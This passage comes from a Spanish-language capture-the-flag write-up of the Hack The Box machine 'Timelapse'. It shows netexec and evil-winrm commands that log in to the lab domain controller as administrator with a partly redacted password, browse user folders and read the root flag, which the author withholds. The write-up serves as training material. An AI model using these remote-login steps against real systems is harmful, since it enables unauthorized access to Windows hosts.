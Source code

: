 ## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Comprobando la contraseña obtenida, se puede iniciar sesión con winrm para obtener la root flag.
~~~powershell
sudo netexec winrm 10.10.11.152 -u administrator -p '++0<SNIP>0;N)'
WINRM-SSL   10.10.11.152    5986   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:timelapse.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM-SSL   10.10.11.152    5986   DC01             [+] timelapse.htb\administrator:++0<SNIP>0;N) (Pwn3d!)


evil-winrm -i 10.10.11.152 -u administrator -p '++0<SNIP>0;N)' -S 
                                        
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> ls
~~~
Ups, al parecer la bandera no esta en el usuario como administrator, pero buscando en los demás usuarios por fin se la encontró.
~~~
*Evil-WinRM* PS C:\Users\Administrator\desktop> cd ..
cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd ..
*Evil-WinRM* PS C:\Users> ls

    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/23/2021  11:27 AM                Administrator
d-----       10/25/2021   8:22 AM                legacyy
d-r---       10/23/2021  11:27 AM                Public
d-----       10/25/2021  12:23 PM                svc_deploy
d-----        2/23/2022   5:45 PM                TRX


*Evil-WinRM* PS C:\Users> cd TRX
*Evil-WinRM* PS C:\Users\TRX> cd desktop
ls
*Evil-WinRM* PS C:\Users\TRX\desktop> ls

    Directory: C:\Users\TRX\desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        10/4/2025   7:34 PM             34 root.txt


*Evil-WinRM* PS C:\Users\TRX\desktop> type root.txt
<Encuentre su root flag>
~~~
🎉 Sistema completamente comprometido - Root obtenido

